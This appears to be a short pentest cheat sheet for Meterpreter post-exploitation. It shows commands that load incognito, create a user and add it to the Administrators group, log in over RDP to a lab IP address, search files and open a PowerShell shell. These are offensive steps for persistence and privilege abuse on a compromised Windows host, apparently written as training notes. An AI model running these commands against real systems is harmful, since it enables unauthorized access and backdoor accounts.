 # Meterpreter

## Modules

### incognito

```
meterpreter > load incognito 
```

Create User
```
PS C:\windows\temp> ./incognito.exe add_user username password
PS C:\windows\temp> ./incognito.exe add_localgroup_user Administrators username

rdesktop -g 90% -u username -p password 10.10.151.159
```

## Search 

```
meterpreter > search -h
Usage: search [-d dir] [-r recurse] -f pattern
Search for files.
```

## Powershell

```console
meterpreter > load powershell                                                                                                                                      
Loading extension powershell...Success.
meterpreter > powershell_shell
PS > whoami /priv
```